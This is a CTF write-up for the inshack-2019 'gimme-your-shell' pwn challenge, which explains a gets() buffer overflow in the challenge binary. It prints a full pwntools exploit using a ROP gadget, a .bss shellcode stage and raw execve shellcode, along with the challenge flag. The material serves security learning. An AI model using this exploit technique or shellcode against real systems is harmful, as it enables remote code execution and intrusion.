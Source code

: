 ```yaml
---
title: "Give Me Your Shell"
date: 2019-05-06T18:39:04+02:00
categories:
- write-ups
- inshack-2019
tags:
- pwn
- reverse
keywords:
- pwn
- reverse
coverImage: /images/inshack-2019/bg.png
coverSize: full
coverMeta: in
autoThumbnailImage: false
summary : "Write-up about the challenge gimme-your-shell from the inshack-2019 CTF."
---
```


|  Event | Challenge | Category | Points | Solves |
|:----------:|:------------:|:------------:|:------------:|:------------:|
| inshack-2019 |  gimme-your-shell  |  pwn  | 50 |  67  |

# TL;DR

This is a remote buffer overflow challenge, there is no protection on the binary but ASLR is enable on the remote server. I redirected the execution flow to write my shellcode to a controled area, then jump to it and execute it.

# Getting informations

First I looked at the protections on the binary :

{{< image classes="fancybox fig-100 center" src="/images/inshack-2019/protections.png" thumbnail="/images/inshack-2019/protections.png" >}}

No protections is enabled but it's a remote challenge and we can assume that the ASLR is enabled on the remote server. Let keep that in mind and try to run the binary. 

{{< image classes="fancybox fig-100" src="/images/inshack-2019/crash.png" thumbnail="/images/inshack-2019/crash.png" >}}

The program crash when the input is to big. The binary is not stripped which means that we can find symbol inside the binary by opening it with ghidra we can easily spot the {{< hl-text orange >}}vuln{{< /hl-text >}} function which use a vulnerable function to get input from the user. Here {{< hl-text orange >}}gets{{< /hl-text >}} will read the user input from STDIN and the result will be stored in {{< hl-text orange >}}local_18{{< /hl-text >}} but there is no check on the size of the user input, we have our buffer overflow.

{{< image classes="fancybox fig-100" src="/images/inshack-2019/ghidra.png" thumbnail="/images/inshack-2019/ghidra.png" >}}

# Road to the exploit

Since ASLR is randomizing the stack addresses we can't find the address of our payload and jump to it. We could try to leak an address of libc and perform a ret2libc but I didn't use this technique because it's an 64 bits binary and there is no easy way to control the register {{< hl-text orange >}}rdi{{< /hl-text >}} which is used to pass the first arguments. So without a gadget to properly set {{< hl-text orange >}}rdi{{< /hl-text >}} we can't make a call to {{< hl-text orange >}}puts{{< /hl-text >}} with the address of {{< hl-text orange >}}gets{{< /hl-text >}} as parameter to leak it's address. But remember the NX bit is not set, here is a definition from wikipedia :

{{< blockquote >}}
An operating system with support for the NX bit may mark certain areas of memory as non-executable. The processor will then refuse to execute any code residing in these areas of memory. The general technique, known as executable space protection, is used to prevent certain types of malicious software from taking over computers by inserting their code into another program's data storage area and running their own code from within this section; one class of such attacks is known as the buffer overflow attack. 
{{< /blockquote >}}

So if it's disable we can write data and then execute what we write if it's a valid set of instructions. Now there are 2 problems to solve, where to write the shellcode and how to jump there. 

We can see from the code in ghidra that the parameter of the {{< hl-text orange >}}gets{{< /hl-text >}} function depend of {{< hl-text orange >}}rbp{{< /hl-text >}}

{{< codeblock lang="assembly"  >}}
00400570 48 8d 45 f0     LEA        RAX=>local_18,[RBP + -0x10]
00400574 48 89 c7        MOV        RDI,RAX
00400577 e8 d4 fe        CALL       gets
{{< /codeblock >}}

By chance there is a [gadget](https://thinkloveshare.com/en/hacking/pwn_3of4_saperliropette/) which allow us to set a crafted value in {{< hl-text orange >}}rbp{{< /hl-text >}} :

{{< codeblock lang="assembly"  >}}
ROPgadget --binary weak
[...]
0x0000000000400522 : pop rbp ; ret
[...]
{{< /codeblock >}}

You can use the readelf command to list sections of the binary and their differents rights, we can see that the {{< hl-text orange >}}.bss{{< /hl-text >}} section has write (W) right, it's a perfect candidate to host our shellcode.
{{< codeblock lang="assembly"  >}}
readelf -S weak
[...]
[25] .bss              NOBITS           0000000000600a18  00000a18
    0000000000000010  0000000000000000  WA       0     0     8
[...]
{{< /codeblock >}}


We also have to see where the program crash, I use gdb with the peda extention which allow me to create patterns and search for them : 

{{< codeblock lang="assembly"  >}}
gdb ./weak
gdb-peda$ pattern_create 30
'AAA%AAsAABAA$AAnAACAA-AA(AADAA'
gdb-peda$ r 
{{< /codeblock >}}

{{< image classes="fancybox fig-100" src="/images/inshack-2019/crash-peda.png" thumbnail="/images/inshack-2019/crash-peda.png" >}}

Perfect we can control {{< hl-text orange >}}rip{{< /hl-text >}} which is the instuction pointer at offset 24.

# Building the exploit

So here is the plan : 

- overflow the program until rip
- use the previous gadget to set rbp with a controlled value in bss
- ret to the code in vuln to make a second call to get
- send our shellcode which will be in bss
- jump to our controlled area in bss

{{< codeblock "exploit.py" "python" >}}
from pwn import *

s = process("./connect.sh", shell=True)

shell = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

bss = 0x0600b00                                         # bss WX permissions
offset = 24

stage1 = ""
stage1 += "A" * offset
stage1 += p64(0x0400522)                                # pop rbp
stage1 += p64(bss + 0x10)
stage1 += p64(0x0400570)                                # back to vuln

print s.recvuntil("president.\n").strip()

s.sendline(stage1)

print s.recvuntil("remember !\n").strip()

stage2 = ""
stage2 += "A" * offset
stage2 += p64(0x0600b00 +32)                            # 32 is the lenght of the offset plus the
stage2 += shell                                         #lenght of the 0x0600b00 address

s.sendline(stage2)

print s.recvuntil("remember !\n").strip()
s.interactive()
{{< /codeblock >}}

{{< codeblock "connect.sh" "bash"  >}}
ssh -i ../key.pub -p 2225 user@gimme-your-shell.ctf.insecurity-insa.fr
{{< /codeblock >}}

# Flag

{{< hl-text red >}}INSA{YoU_h4v3_a_b34uT1fUL_Sh33lc0d3}{{< /hl-text >}} 





